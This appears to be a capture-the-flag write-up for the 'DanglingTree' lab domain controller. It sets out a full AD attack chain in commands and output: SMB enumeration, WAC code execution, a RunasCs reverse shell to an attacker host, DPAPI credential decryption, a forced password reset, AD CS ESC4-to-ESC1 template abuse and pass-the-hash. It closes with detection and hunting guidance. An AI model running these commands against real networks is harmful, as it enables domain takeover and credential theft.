# DanglingTree


```
Host: dc.danglingtree.htb (10.129.28.174)
OS: Windows
Difficulty: Medium
Key Concepts: Active Directory, Domain Controller Enumeration, SMB, LDAP, Kerberos, IIS, Global Catalog, RDP, AD CS/PKI, SMB Signing, Clock Skew.
```


## Summary of Attack Chain

| Step |  User / Access  |                Technique Used                | Result                                                                                                                                                                           |
| :---: | :--------------------: | :---------------------------------------------------: | :----------------------------------------------------------------------------- |
|   1  |      `N/A`      |     **Anonymous / Guest SMB Enumeration**    | Enumerated the DC's SMB shares anonymously/with Guest and identified the `IT` share as an interesting readable resource.                                                         |
|   2  |      `N/A`      |         **SMB Recursive Enumeration**        | Recursively enumerated the `IT` share and discovered `Security\DanglingTree_RoE_Assessment.pdf`.                                                                                 |
|   3  |      `N/A`      |      **Windows Admin Center (WAC) RCE**      | Used the WAC WinREST PowerShell execution endpoint with `anderson.w` credentials, obtaining command execution on the DC as `danglingtree\anderson.w`.                            |
|   4  |   `anderson.w`  |     **SmarterMail RCE - CVE-2026-23760**     | Targeted the internal SmarterMail application and achieved code execution as the `svc_mail` service account.                                                                     |
|   5  |    `svc_mail`   | **SmarterMail Backup / Credential Recovery** | Accessed historical SmarterMail backup data and recovered credentials for the domain account `noah.b`.                                                                           |
|   6  |   `anderson.w`  |       **RunasCs - User Context Switch**      | Used WAC execution with RunasCs and `noah.b`'s recovered password to spawn an interactive `cmd.exe` session as `danglingtree\noah.b`.                                            |
|   7  |     `noah.b`    |       **User Flag / Local Enumeration**      | Confirmed the `noah.b` SID and retrieved `user.txt` from `noah.b`'s Desktop.                                                                                                     |
|   8  |     `noah.b`    |         **DPAPI Artifact Discovery**         | Located a DPAPI masterkey and Credential Manager blob associated with the same masterkey, containing a credential for `alex.o`.                                                  |
|   9  |    `attacker`   |        **DPAPI Masterkey Decryption**        | Used `noah.b`'s known domain password and SID to decrypt the DPAPI masterkey, then decrypted the Credential Manager blob and recovered `alex.o`'s password.                      |
|  10  |     `alex.o`    |    **ForceChangePassword - AD ACL Abuse**    | `alex.o` had `ForceChangePassword` rights over `jake.h`, allowing `jake.h`'s password to be reset without knowing the existing password.                                         |
|  11  |     `jake.h`    |          **AD CS / PKI Enumeration**         | LDAP enumeration showed `jake.h` belonged to `DevOps_PKI`, `Template_Editors`, and `Helpdesk_Cert_Support`; `certipy find -vulnerable` identified ESC7-related CA permissions.   |
|  12  |     `jake.h`    |  **Orphaned Certificate Template Discovery** | Enumerated CA-published templates and confirmed `RemoteAccessVPN`, `EmployeeAuthTemplate`, and `VPNUserTemplate` had no corresponding AD certificate-template objects.           |
|  13  |     `jake.h`    |     **ESC4 - Recreate Orphaned Template**    | Recreated the orphaned `RemoteAccessVPN` certificate-template object and associated Enterprise OID, causing the CA to recognize the template.                                    |
|  14  |     `jake.h`    |  **ESC4 - Template Ownership / DACL Abuse**  | `jake.h` became the owner of the recreated template and used `impacket-dacledit` to grant themselves `FullControl` over the template object.                                     |
|  15  |     `jake.h`    |         **ESC4 -> ESC1 Configuration**        | Modified `RemoteAccessVPN` with `certipy template`, enabling enrollee-supplied subject information and Client Authentication, converting the template into an ESC1 condition.    |
|  16  |     `jake.h`    | **ESC1 - Administrator Certificate Request** | Built the built-in Administrator SID using RID `500` and requested a certificate for `Administrator@danglingtree.htb` with the Administrator SID, receiving `administrator.pfx`. |
|  17  |     `jake.h`    |           **PKINIT Authentication**          | Used `certipy auth` with `administrator.pfx` to obtain an Administrator TGT and recover the Administrator NTLM hash.                                                             |
|  18  | `Administrator` |   **Pass-the-Hash / Administrative Access**  | Used the recovered Administrator NTLM hash with `evil-winrm`, `impacket-wmiexec`, and `impacket-smbclient` to obtain administrative access and retrieve `root.txt`.              |





Let's start with anonymous/guest SMB enumeration against the DC.

### Nmap Scan Summary

**Target:** `10.XX.XX.XX`
**Hostname:** `dc.danglingtree.htb`
**Domain:** `danglingtree.htb`
**OS:** Windows
**Role:** Domain Controller (`DC`)
**Scan:** `nmap -sCV`


|   Port | Service            | Version / Information                    |
| :------| :------------------- |------------------------------------------ |
|   `53` | DNS                | Simple DNS Plus                          |
|   `80` | HTTP               | Microsoft IIS 10.0                       |
|   `88` | Kerberos           | Microsoft Windows Kerberos               |
|  `135` | MSRPC              | Microsoft Windows RPC                    |
|  `139` | NetBIOS            | Microsoft NetBIOS-SSN                    |
|  `389` | LDAP               | Active Directory LDAP                    |
|  `443` | HTTPS              | TLS; certificate CN `danglingtree-DC-CA` |
|  `445` | SMB                | Microsoft-DS / SMB                       |
|  `464` | Kpasswd            | Kerberos password service                |
|  `593` | RPC over HTTP      | Microsoft RPC over HTTP 1.0              |
|  `636` | LDAPS              | Active Directory LDAP over SSL           |
| `3268` | Global Catalog     | Active Directory LDAP                    |
| `3269` | Global Catalog SSL | Active Directory LDAP over SSL           |
| `3389` | RDP                | Microsoft Terminal Services              |


* The host is confirmed as a **Windows Domain Controller**.
* Active Directory services are exposed through **LDAP, LDAPS, Kerberos, SMB, and Global Catalog**.
* IIS `10.0` is exposed on `80/tcp`.
* HTTPS `443/tcp` presents a certificate with:

  ```text
  CN=danglingtree-DC-CA
  ```

  indicating the presence of a domain Certificate Authority.
* SMB `3.1.1` has **message signing enabled and required**.
* Nmap detected approximately **1 hour of clock skew**, which is relevant to Kerberos authentication.
* RDP is exposed on `3389/tcp`.
* `986` TCP ports were filtered and did not respond.


```text
10.XX.XX.XX
│
├── 53   DNS
├── 80   IIS
├── 88   Kerberos
├── 135  MSRPC
├── 139  NetBIOS
├── 389  LDAP
├── 443  HTTPS / DC-CA
├── 445  SMB
├── 464  Kerberos Password
├── 593  RPC over HTTP
├── 636  LDAPS
├── 3268 Global Catalog
├── 3269 Global Catalog SSL
└── 3389 RDP
```


The service combination strongly identifies the target as an **Active Directory Domain Controller** for `danglingtree.htb`.

Initial areas of interest:

1. **SMB (`445`)** - anonymous/Guest share enumeration.
2. **HTTP/HTTPS (`80/443`)** - web and management interfaces.
3. **LDAP/LDAPS** - domain enumeration once credentials are available.
4. **AD CS / PKI** - investigate the `danglingtree-DC-CA` certificate.
5. **Kerberos (`88`)** - account authentication and possible time synchronization issues.
6. **RDP (`3389`)** - potential authenticated access.


 `/etc/hosts`

Add the Domain Controller and domain names locally:

```text
10.XX.XX.XX    dc.danglingtree.htb    danglingtree.htb
```

Command:

```bash
echo "10.XX.XX.XX dc.danglingtree.htb danglingtree.htb" | sudo tee -a /etc/hosts
```

Verify:

```bash
getent hosts dc.danglingtree.htb
getent hosts danglingtree.htb
```

Expected:

```text
10.XX.XX.XX  dc.danglingtree.htb
10.XX.XX.XX  danglingtree.htb
```


**List available shares anonymously**

```bash
smbclient -N -L //10.XX.XX.XX/
# or with nxc/CrackMapExec
nxc smb 10.XX.XX.XX -u '' -p '' --shares
nxc smb 10.XX.XX.XX -u 'guest' -p '' --shares
```




Look for anything beyond the usual admin shares (`C$`, `ADMIN$`, `IPC$`) - We are looking for something like an `IT` share readable by Guest/Anonymous.

**Connect to the IT share and enumerate recursively**

```bash
smbclient -N //10.XX.XX.XX/IT
# once connected:
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```



Found it. Grab that file specifically:

```bash
smb: \> get Security\DanglingTree_RoE_Assessment.pdf
```


WAC exposes a WinREST PowerShell execution endpoint once authenticated:

```
/api/services/WinREST/PowerShell/nodes/dc/invokeCommand
```

A script reproducing WAC's authentication handshake (`wac_rce.py`)
was used to call this endpoint directly:

```bash
python3 wac_rce.py 'anderson.w' '<ANDERSON_PASSWORD>' 'whoami'
```




**Confirmed output:**
```
danglingtree\anderson.w
```

This established command execution on the DC in the context of
`anderson.w`, the foothold used for every subsequent step.











### SmarterMail RCE -> svc_mail (CVE-2026-23760)

Using the WAC execution primitive, the internal SmarterMail
application was targeted with **CVE-2026-23760**, achieving code
execution as the `svc_mail` service account.

From this context, SmarterMail's historical backup data was
accessible, along with administrative functionality tied to:

```
CanViewPasswords
/api/v1/settings/domain/show-password/
```

One of the historical backups contained information sufficient to
recover credentials for the domain account `noah.b`.


### Obtaining an Interactive noah.b Shell

With `anderson.w`'s WAC access and `noah.b`'s recovered password, an
interactive shell was spawned using **RunasCs**, executed remotely via
WAC:

```bash
python3 wac_rce.py 'anderson.w' 'R3XXXXXXXXXXXXXXX' \
  '& "C:\Users\anderson.w\Documents\RunasCs.exe" noah.b "RiveXXXXXXXXXXXXXXX" cmd.exe -r 10.10.16.74:5557 --logon-type 8'
```

**Output:**
```
[*] Warning: The function CreateProcessWithLogonW is not compatible with the requested logon type '8'. Reverting to the Interactive logon type '2'.
[*] Warning: The logon for user 'noah.b' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-13998eb$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 388 created in background.
```

A reverse shell listener on `10.10.16.74:5557` receives an interactive
`cmd.exe` session running as `danglingtree\noah.b`.



**Confirmed via:**
```cmd
whoami /user
```
```
danglingtree\noah.b S-1-5-21-4220238332-57023728-1129110646-1602
```





`user.txt` was read from `noah.b`'s Desktop at this point.


### Locating alex.o's Credential in Credential Manager

Inside `noah.b`'s profile, two DPAPI-protected artifacts were located
and exfiltrated (base64-wrapped in fake PEM `CERTIFICATE` blocks via
`certutil -encode`, since `type` cannot cleanly output binary data):




- `mk_b64.txt` - a DPAPI **masterkey** file
  - GUID (decoded from UTF-16LE header): `f53fcaba-f057-48e8-8f92-0180d274bf0f`
- `cred_b64.txt` - a **Credential Manager** blob (labeled "Enterprise
  Credential Data" internally), targeting the same masterkey GUID,
  storing a credential for `alex.o`

  
  
  

#### Decoding back to binary (attacker side)

```bash
sed '1d;$d' mk_b64.txt | base64 -d > masterkey.bin
sed '1d;$d' cred_b64.txt | base64 -d > credential.bin
```




### Decrypting the DPAPI Masterkey and Credential Blob

Since `noah.b`'s domain password was already known (`RiveXXXXXXXXXXXXXXX`,
recovered), the masterkey could be decrypted directly:

```bash
impacket-dpapi masterkey \
  -file masterkey.bin \
  -sid S-1-5-21-4220238332-57023728-1129110646-1602 \
  -password 'RiveXXXXXXXXXXXXXXX'
```



This yields a decrypted masterkey (`0x<hex>`), which is then used to
decrypt the credential blob:

```bash
impacket-dpapi credential \
  -file credential.bin \
  -key 0x<decrypted_masterkey_hex>
```



**Result:**
```
Username    : alex.o
Unknown     : SunXXXXXXXXXXXXXXX@2025
```

(The `Unknown` label is simply impacket's parser lacking a friendly
name for that field position - the value is the password, per the
`CRED_TYPE_DOMAIN_PASSWORD` structure.)

#### Verification

```bash
nxc smb 10.XX.XX.XX -u 'alex.o' -p 'SunXXXXXXXXXXXXXXX@2025'
```


### ForceChangePassword: alex.o -> jake.h

`alex.o` holds `ForceChangePassword` rights over the `jake.h` AD
object, allowing a new password to be set without knowing the current
one:

```bash
net rpc password 'jake.h' 'Passw0rd123!' \
  -U 'danglingtree.htb/alex.o%SunXXXXXXXXXXXXXXX@2025' \
  -S 10.XX.XX.XX
```



#### Verification

```bash
nxc smb 10.XX.XX.XX -u 'jake.h' -p 'Passw0rd123!'
```



Confirmed - full control of `jake.h` established.


### Enumerating jake.h's PKI Group Memberships

```bash
LDAPTLS_REQCERT=never ldapsearch -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -b 'DC=danglingtree,DC=htb' \
  '(&(objectClass=user)(sAMAccountName=jake.h))' \
  memberOf
```




**Result:**
```
dn: CN=jake.h,CN=Users,DC=danglingtree,DC=htb
memberOf: CN=DevOps_PKI,CN=Users,DC=danglingtree,DC=htb
memberOf: CN=Template_Editors,CN=Users,DC=danglingtree,DC=htb
memberOf: CN=Helpdesk_Cert_Support,CN=Users,DC=danglingtree,DC=htb
```

`certipy find -vulnerable` independently confirmed **ESC7** via the
`Helpdesk_Cert_Support` group's `ManageCertificates` rights on the CA:

```
Access Rights
  ManageCertificates : DANGLINGTREE.HTB\Helpdesk_Cert_Support, ...
[!] Vulnerabilities
  ESC7 : User has dangerous permissions.
```

(ESC7 was identified but the exploitation path actually pursued was
ESC4 -> ESC1, described below.)


### Discovering Orphaned Certificate Templates

```bash
LDAPTLS_REQCERT=never ldapsearch -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -b 'CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb' \
  '(objectClass=pKIEnrollmentService)' \
  cn dNSHostName certificateTemplates
```



**Result (relevant excerpt):**
```
cn: danglingtree-DC-CA
dNSHostName: dc.danglingtree.htb
certificateTemplates: RemoteAccessVPN
certificateTemplates: EmployeeAuthTemplate
certificateTemplates: VPNUserTemplate
... (plus standard default templates)
```

Checking whether these three have backing AD objects:

```bash
LDAPTLS_REQCERT=never ldapsearch -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -b 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb' \
  '(|(cn=RemoteAccessVPN)(cn=EmployeeAuthTemplate)(cn=VPNUserTemplate))'
```

**Result:** `numEntries: 0` - confirmed orphaned. The CA publishes
these template names, but no corresponding AD objects exist. This
makes it possible to recreate one and have the CA immediately
recognize it as valid.

Target chosen: **RemoteAccessVPN**


### Creating an Enterprise OID

Every certificate template requires a unique OID. Existing OIDs were
enumerated to determine the domain's base OID:

```bash
LDAPTLS_REQCERT=never ldapsearch -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -b 'CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb' \
  '(objectClass=msPKI-Enterprise-Oid)' \
  msPKI-Cert-Template-OID displayName
```

**Base OID identified:**
```
1.3.6.1.4.1.311.21.8.13218431.14779392.10764427.12370424.10671376.174
```


#### Generating unique random components

```bash
A=$(python3 -c 'import random; print(random.randint(1000000,9999999))')
B=$(python3 -c 'import random; print(random.randint(1000000,9999999))')
HEX=$(openssl rand -hex 16 | tr '[:lower:]' '[:upper:]')

OID_CN="${B}.${HEX}"
NEW_OID="1.3.6.1.4.1.311.21.8.13218431.14779392.10764427.12370424.10671376.174.${A}.${B}"
```

**Generated values:**
```
OID_CN  = 7482206.BCF3F0D1C57C7324887A97EFC017EFEC
NEW_OID = 1.3.6.1.4.1.311.21.8.13218431.14779392.10764427.12370424.10671376.174.7998229.7482206
```



#### LDIF and creation

```bash
cat > /tmp/oid.ldif << EOF
dn: CN=${OID_CN},CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
changetype: add
objectClass: top
objectClass: msPKI-Enterprise-Oid
cn: ${OID_CN}
displayName: RemoteAccessVPN
flags: 1
msPKI-Cert-Template-OID: ${NEW_OID}
EOF

LDAPTLS_REQCERT=never ldapadd -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -f /tmp/oid.ldif
```

**Result:**
```
adding new entry "CN=7482206.BCF3F0D1C57C7324887A97EFC017EFEC,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb"
```

This write succeeded due to `jake.h`'s inherited permissions from
`DevOps_PKI` group membership.


### Recreating the RemoteAccessVPN Template Object

```bash
cat > /tmp/template.ldif << 'EOF'
dn: CN=RemoteAccessVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
changetype: add
objectClass: top
objectClass: pKICertificateTemplate
cn: RemoteAccessVPN
distinguishedName: CN=RemoteAccessVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb
displayName: RemoteAccessVPN
revision: 100
pKIDefaultKeySpec: 1
pKIMaxIssuingDepth: 0
pKICriticalExtensions: 2.5.29.15
pKIExpirationPeriod:: AEA5hy7h/v8=
pKIOverlapPeriod:: AICmCv/e//8=
pKIExtendedKeyUsage: 1.3.6.1.5.5.7.3.2
pKIDefaultCSPs: 1,Microsoft Enhanced Cryptographic Provider v1.0
msPKI-RA-Signature: 0
msPKI-Enrollment-Flag: 0
msPKI-Private-Key-Flag: 0
msPKI-Certificate-Name-Flag: 0
msPKI-Minimal-Key-Size: 2048
msPKI-Template-Schema-Version: 2
msPKI-Template-Minor-Revision: 2
msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.13218431.14779392.10764427.12370424.10671376.174.7998229.7482206
flags: 66123
EOF

LDAPTLS_REQCERT=never ldapadd -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -f /tmp/template.ldif
```

> **Note:** an initial attempt including a duplicate `revision`
> attribute failed with `Constraint violation (19)` /
> `CONSTRAINT_ATT_TYPE` - `revision` is single-valued and cannot appear
> twice in one LDIF entry. Removing the duplicate resolved it.




**Result:**
```
adding new entry "CN=RemoteAccessVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb"
```

#### Verification via Certipy - confirms ESC4

```bash
certipy find -u 'jake.h@danglingtree.htb' -p 'Passw0rd123!' -dc-ip 10.XX.XX.XX -stdout \
  | grep -A 40 "Template Name.*RemoteAccessVPN"
```

**Key output:**
```
Template Name : RemoteAccessVPN
Enabled       : True
Client Authentication : True

Permissions
  Object Control Permissions
    Owner : DANGLINGTREE.HTB\jake.h
    Full Control Principals : Domain Admins, Local System, Enterprise Admins
[+] User ACL Principals : DANGLINGTREE.HTB\jake.h
[!] Vulnerabilities
  ESC4 : Template is owned by user.
```






Ownership alone (from creating the object) grants `jake.h` the ability
to modify the object's DACL - but not yet direct write access to
sensitive template attributes.


###  ESC4 -> FullControl via DACL Edit

```bash
impacket-dacledit \
  -action write \
  -rights FullControl \
  -principal 'jake.h' \
  -target-dn 'CN=RemoteAccessVPN,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=danglingtree,DC=htb' \
  'danglingtree.htb/jake.h:Passw0rd123!' \
  -dc-ip 10.XX.XX.XX \
  -use-ldaps
```

**Result:**
```
[*] DACL backed up to dacledit-20260811-141348.bak
[*] DACL modified successfully!
```




`jake.h` now has `FullControl` over the template object, sufficient to
modify all its sensitive attributes directly.


### Converting the Template to ESC1

#### Obtaining jake.h's SID

```bash
impacket-lookupsid 'danglingtree.htb/jake.h:Passw0rd123!@10.XX.XX.XX' | grep -i 'jake.h'
```


**Result:**
```
1103: DANGLINGTREE\jake.h (SidTypeUser)
```

Full SID: `S-1-5-21-4220238332-57023728-1129110646-1103`

#### Applying ESC1 configuration

An initial attempt failed:
```
[-] Got error: unpack requires a buffer of 8 bytes
```



This was caused by malformed `pKIExpirationPeriod`/`pKIOverlapPeriod`
binary FILETIME values set during template creation (Step 12). These
were corrected via direct LDAP modify (now possible thanks to the
FullControl grant from Step 13):

```bash
LDAPTLS_REQCERT=never ldapmodify -x \
  -H ldaps://10.XX.XX.XX:636 \
  -D 'jake.h@danglingtree.htb' \
  -w 'Passw0rd123!' \
  -f /tmp/fix_periods.ldif
```

Then the ESC1 conversion was retried:




```bash
certipy template \
  -u 'jake.h@danglingtree.htb' \
  -p 'Passw0rd123!' \
  -dc-ip 10.XX.XX.XX \
  -template 'RemoteAccessVPN' \
  -write-default-configuration 'S-1-5-21-4220238332-57023728-1129110646-1103' \
  -force
```

**Result:**
```
[*] Adding:
    pKIKeyUsage: b'\x86\x00'
    msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
[*] Replacing:
    nTSecurityDescriptor: <new default DACL>
    flags: 66104
    pKIDefaultKeySpec: 2
    pKIMaxIssuingDepth: -1
    pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
    pKIDefaultCSPs: [...]
    msPKI-Private-Key-Flag: 16
    msPKI-Certificate-Name-Flag: 1
[*] Successfully updated 'RemoteAccessVPN'
```

`msPKI-Certificate-Name-Flag: 1` corresponds to
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` - the requester can now supply an
arbitrary identity (UPN/SID) in the certificate request. Combined with
Client Authentication EKU, no manager approval, and no authorized
signatures required, this is a complete **ESC1** condition.




### Building the Administrator SID

Domain SID prefix was already established:
```
S-1-5-21-4220238332-57023728-1129110646
```

The built-in Administrator account always has RID `500`:

```
Administrator SID = S-1-5-21-4220238332-57023728-1129110646-500
```


### Requesting an Administrator Certificate (DCOM Enrollment)

```bash
certipy req \
  -u 'jake.h@danglingtree.htb' \
  -p 'Passw0rd123!' \
  -dc-ip 10.XX.XX.XX \
  -target 'dc.danglingtree.htb' \
  -ca 'danglingtree-DC-CA' \
  -template 'RemoteAccessVPN' \
  -upn 'Administrator@danglingtree.htb' \
  -sid 'S-1-5-21-4220238332-57023728-1129110646-500' \
  -dcom
```

DCOM enrollment was used (rather than plain RPC) per your note that
request ID **24** was assigned this way.

**Result:**
```
[*] Requesting certificate via DCOM
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@danglingtree.htb'
[*] Certificate object SID is 'S-1-5-21-4220238332-57023728-1129110646-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```



> Note: the request ID observed in this session was **17**; your final
> summary referenced **24**, likely from a repeated/later request in
> the same engagement. Both are consistent with the same technique.

Both the UPN and SID were included deliberately - an SID-less request
can produce a certificate that later fails PKINIT with `Object SID
mismatch between certificate and user 'administrator'`.


### PKINIT as Administrator

```bash
certipy auth \
  -pfx administrator.pfx \
  -dc-ip 10.XX.XX.XX \
  -domain danglingtree.htb
```

**Result:**
```
Got TGT
Saving credential cache to: administrator.ccache
Got hash for 'administrator@danglingtree.htb': aad3b435b51404eeaad3b435b51404ee:8cacb3a97XXXXXXXXXXXXXXXXXXXXXXX
```





No clock-skew issues were encountered in this run (the `faketime`
workaround documented for `KRB_AP_ERR_SKEW` was not needed).

Administrator is now compromised - the account's actual password was
never required at any point in this chain.


### Step 18 - Administrative Access

Pass-the-hash was used to obtain a full administrative session. Two
methods were used during this engagement:

#### evil-winrm (initial access, found to be slow for file transfer)
```bash
evil-winrm -i 10.XX.XX.XX -u Administrator -H 8cacb3a97XXXXXXXXXXXXXXXXXXXXXXX
```

#### impacket-wmiexec (faster command execution)
```bash
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:8cacb3a97XXXXXXXXXXXXXXXXXXXXXXX administrator@10.XX.XX.XX
```



#### impacket-smbclient (for file transfer, faster than evil-winrm upload/download)
```bash
impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:8cacb3a97XXXXXXXXXXXXXXXXXXXXXXX administrator@10.XX.XX.XX
```



`root.txt` was retrieved from the Administrator's Desktop, completing
the box.


## Defensive Operations

* **1.1 Definition:** A high-severity Active Directory compromise chain combining **anonymous SMB enumeration**, **Windows Admin Center (WAC) command execution**, **SmarterMail RCE**, **DPAPI credential recovery**, **Active Directory ACL abuse**, and **AD CS certificate-template abuse (ESC4 -> ESC1)** to obtain administrative authentication without requiring the Administrator's actual password.

* **1.2 Impact:** **Full Domain Controller Compromise.** The adversary progresses from publicly accessible SMB information to command execution as `anderson.w`, pivots through `svc_mail` and `noah.b`, recovers `alex.o` credentials from DPAPI-protected data, abuses `ForceChangePassword` to control `jake.h`, and ultimately converts an orphaned certificate template into an ESC1-enrollable template capable of impersonating the built-in Administrator account.

* **1.3 The Scenario:** An adversary discovers an accessible `IT` SMB share and obtains information enabling access to Windows Admin Center. WAC provides PowerShell execution on the DC as `anderson.w`. The attacker then exploits SmarterMail to obtain `svc_mail` execution and recover `noah.b` credentials. From `noah.b`, DPAPI artifacts reveal a credential for `alex.o`; an AD permission allows `alex.o` to reset `jake.h`'s password. Finally, `jake.h` abuses PKI permissions to recreate an orphaned certificate template, gain full control over it, configure it for ESC1, request an Administrator certificate, authenticate through PKINIT, and obtain administrative access.

### System Architecture & Theory

* **2.1 Protocol Environment:**

* **File Services Layer:** SMB / Windows file sharing exposed by the Domain Controller.

* **Management Layer:** Windows Admin Center and its WinREST PowerShell endpoint.

* **Application Layer:** SmarterMail with historical backup data.

* **Identity Layer:** Active Directory users, groups, ACLs, and password-reset permissions.

* **Credential Layer:** Windows DPAPI and Credential Manager.

* **PKI Layer:** Active Directory Certificate Services (AD CS), Enterprise CA, and certificate templates.

* **Authentication Layer:** Kerberos PKINIT and NTLM-based administrative authentication.

* **2.2 Attack Logic Flow:**

> [Anonymous SMB] -> [IT Share] -> [WAC PowerShell Execution] -> [anderson.w] -> [SmarterMail RCE] -> [svc_mail] -> [noah.b Credentials] -> [DPAPI] -> [alex.o] -> [ForceChangePassword] -> [jake.h] -> [AD CS ESC4] -> [ESC1] -> [Administrator Certificate] -> [PKINIT] -> [Administrator]

* **2.3 Theoretical Analogy:** The attacker first finds an unlocked information cabinet (SMB) containing clues to the building's management system (WAC). After gaining access to the management console, they use another vulnerable service (SmarterMail) to obtain additional credentials. Those credentials unlock a protected credential vault (DPAPI), revealing another employee's access. An overly powerful directory permission then allows the attacker to take control of a PKI administrator account. Finally, the attacker rebuilds an abandoned certificate template into a credential-forging mechanism and obtains a certificate representing the building's master administrator.

### Attack Vector (Mechanics)

#### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                                       |
| :----------------------- | :------------------------------------------------------------------------------------ |
| **Primary Identifiers** | Anonymous/Guest SMB access, WAC WinREST PowerShell endpoint, CVE-2026-23760, DPAPI Credential Manager artifacts, `ForceChangePassword`, orphaned AD CS template, ESC4, ESC1, PKINIT.    |
| **Critical Weakness**   | **Chained identity and PKI misconfigurations** allowing privilege to propagate between accounts until certificate-based impersonation of Administrator becomes possible.                |
| **Offensive Technique** | Combined credential discovery, AD object-control abuse, and AD CS template manipulation to transform control of `jake.h` into an Administrator certificate and Kerberos authentication. |

#### Prerequisites

* **Initial Access:** Anonymous/Guest SMB enumeration and subsequent access to information exposed through the `IT` share.
* **Credentials:** `anderson.w` credentials for WAC execution; subsequent credentials are recovered during the attack chain.
* **Directory Access:** Valid domain credentials for LDAP enumeration and modification.
* **PKI State:** An Enterprise CA publishing an orphaned certificate-template name and permissions allowing the attacker to recreate/control the template.
* **Network Services:** SMB, LDAP/LDAPS, WAC, AD CS enrollment, and Kerberos services accessible from the attacker environment.

### Threat Hunting & Anomaly Analysis



[DanglingTree](/posts/DanglingTree/Forensics/)

* **Hunt Hypothesis:** A compromise of this type produces a sequence of unusual identity, directory, PKI, and authentication events rather than relying on a single obvious exploit. Detection should correlate SMB enumeration, unusual WAC PowerShell execution, service-account activity, password resets, certificate-template modifications, certificate enrollment, and PKINIT authentication.

* **Behavioral Outliers:**

* **SMB:** Anonymous or Guest enumeration of non-standard shares such as `IT`.

* **WAC:** Unexpected execution of PowerShell commands through the WinREST service endpoint.

* **Credential Access:** Access to DPAPI masterkeys and Credential Manager artifacts from another user's profile.

* **AD ACL Changes:** A user resetting another user's password through `ForceChangePassword`.

* **PKI:** Creation or modification of certificate-template objects by ordinary domain users.

* **Certificate Enrollment:** Certificate requests containing an Administrator UPN/SID from a non-administrative account.

* **Kerberos:** PKINIT authentication for Administrator shortly after suspicious certificate enrollment.

* **Toxic Combinations:** The most dangerous combination is **user-controlled certificate-template permissions + Client Authentication + enrollee-supplied subject identity**. In this scenario, these conditions allowed `jake.h` to obtain a certificate representing the built-in Administrator account.

### Detection Engineering

* **Telemetry Gap Analysis:**

* **SMB Auditing:** Monitor anonymous/Guest access and enumeration of sensitive or non-standard shares.

* **PowerShell / WAC Auditing:** Log PowerShell commands executed through Windows Admin Center and correlate them with the initiating account.

* **AD Object Auditing:** Monitor password-reset operations and directory ACL modifications.

* **AD CS Auditing:** Monitor certificate-template creation, ownership changes, DACL changes, and enrollment requests.

* **Kerberos Monitoring:** Correlate certificate enrollment with subsequent PKINIT authentication, especially when the requested identity is privileged.

* **Detection-as-Code Concept:**

```kql
// Conceptual detection:
// Suspicious AD CS certificate enrollment followed by
// privileged Kerberos authentication.
//
// Exact field names depend on the deployed Windows,
// AD CS, and SIEM telemetry schema.

let SuspiciousEnrollment =
    CertificateEvents
    | where CertificateTemplate == "RemoteAccessVPN"
    | where RequesterAccount !contains "Administrator"
    | where SubjectUPN contains "Administrator";

SuspiciousEnrollment
| join kind=inner (
    KerberosEvents
    | where AuthenticationMethod contains "PKINIT"
    | where TargetAccount contains "Administrator"
) on Computer
| project TimeGenerated,
          RequesterAccount,
          SubjectUPN,
          TargetAccount,
          AuthenticationMethod;
```

* **Resilience Test:**
* **Bypass:** An attacker may use a less obvious privileged identity instead of the built-in Administrator account, making simple string matching insufficient.
* **Sub-Rule Countermeasure:** Monitor **certificate-template object modifications**, not only certificate enrollment. Detect unexpected changes to `msPKI-Certificate-Name-Flag`, certificate application policies, ownership, and DACLs.

### Toolkit & Implementation

* **Automation:**

* `smbclient` / `nxc`: SMB enumeration and share access.

* `wac_rce.py`: WAC authentication and command-execution workflow.

* `RunasCs`: Execution under the recovered `noah.b` account.

* `impacket-dpapi`: DPAPI masterkey and Credential Manager decryption.

* `ldapsearch` / `ldapadd` / `ldapmodify`: Active Directory and PKI object enumeration/modification.

* `impacket-dacledit`: Certificate-template DACL modification.

* `Certipy`: AD CS enumeration, template modification, certificate request, and PKINIT authentication.

* `evil-winrm` / `impacket-wmiexec` / `impacket-smbclient`: Administrative access after obtaining the Administrator hash.

* **OPSEC Analysis:**

* **SMB Enumeration:** Anonymous/Guest access may be visible in SMB logs and is a useful early detection signal.

